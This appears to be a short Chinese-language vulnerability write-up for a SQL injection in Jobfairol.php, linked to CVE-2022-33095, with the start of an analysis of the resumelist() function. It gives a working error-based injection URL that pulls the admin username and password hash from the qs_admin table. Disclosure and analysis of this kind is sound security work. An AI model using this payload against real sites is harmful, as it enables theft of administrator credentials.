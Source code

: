 ### v3.5.1 SQL 注入｜Jobfairol.php

漏洞信息：  
[CNVD-2022-61443 - 国家信息安全漏洞共享平台 (cnvd.org.cn)](https://www.cnvd.org.cn/flaw/show/CNVD-2022-61443)  
[CVE - CVE-2022-33095 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33095)

文件路径：v1\_0/controller/home/Jobfairol.php，keyword 参数

Payload：

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword=' (select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

![pFsFxxS.png](assets/1710993004-960a0cf1bb2f6d6a5a415564cbe5cb41.png)

#### 代码分析

定位到关键函数 resumelist() ，接收四个参数，其中 $keyword 接收字符串格式，这里输入 sec 作为测试字符进行跟踪。  
![pFskSKg.png](assets/1710993004-56c0034a59b1274f11a010396e3d0289.png)
